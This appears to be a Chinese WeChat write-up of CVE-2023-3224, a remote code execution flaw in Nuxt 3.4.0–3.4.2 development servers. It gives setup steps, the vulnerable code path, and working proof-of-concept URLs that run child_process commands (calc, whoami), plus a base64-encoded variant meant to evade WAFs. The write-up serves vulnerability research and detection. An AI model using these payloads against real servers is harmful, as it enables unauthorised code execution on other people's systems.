 #  Nuxt开发模式下远程代码执行漏洞(CVE-2023-3224)

[ Medi0cr1ty ](javascript:void\(0\);)

**Medi0cr1ty** ![]()

微信号 Medi0cr1ty

功能介绍 宁静在遥远处波动

____

___发表于_

收录于合集

#漏洞 1 个

#nodejs 1 个

漏洞很简单，仅进行部分补充及记录

 **01**

漏洞概述

Nuxt在当服务端以开发模式启动时存在代码注入漏洞，远程未授权攻击者可利用此漏洞注入恶意代码并获取目标服务器权限。

前置条件：服务端以开发模式启动。

影响版本：Nuxt 3.4.0；3.4.1；3.4.2

 **02**

漏洞分析

环境搭建（三步）：

1、初始化

  * 

    
    
    npm init -y

2、依赖安装

  * 

    
    
    npm install nuxt@3.4.0

3、启动

  * 

    
    
    npx nuxi dev

根据漏洞补丁可知，漏洞触发点在 nuxt-root.vue 对 /__nuxt_component_test__/ 开头的 URL进行处理，交由 test-
component-wrapper.mjs ，在这里根据 query 中 path 参数值进行动态引入，导致可注入任意代码。

POC：  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,console.log("test!");

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175621.png)

RCE：

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,(await%20import('child_process')).execSync('calc')

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175623.png)

RCE + 回显：

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,throw%20new%20Error((await%20import('child_process')).execSync('whoami'));

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175624.png)

 **03**

漏洞检测

  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,throw%20new%20Error(Buffer.from(%22medi0crity%22).toString(%27base64%27));

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175625.png)

  

另：均可进行编码绕 WAF 等，如：  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript%3bcharset%3dutf-8%3bbase64,KGF3YWl0IGltcG9ydCgnY2hpbGRfcHJvY2VzcycpKS5leGVjU3luYygnY2FsYycp

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

